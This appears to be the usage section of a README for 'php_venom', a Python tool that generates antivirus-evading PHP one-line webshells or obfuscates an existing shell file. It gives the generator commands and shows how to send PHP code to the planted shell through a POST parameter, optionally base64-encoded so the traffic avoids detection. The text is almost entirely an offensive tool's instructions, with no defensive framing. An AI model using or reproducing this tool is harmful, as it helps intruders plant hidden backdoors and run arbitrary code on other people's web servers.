 
## 使用方法
```
python3 php_venom_3.3.py    //生成免杀一句话

python3 php_venom_3.3.py shell.php   //对同目录下shell.php进行免杀处理，结果保存在shell.php.bypass.php
```
   
## 3.x 使用说明：
 
 是否传入id参数决定是否把流量编码
 
 ```
http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id=xxx(xxxx随便修改)
POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码

```

 

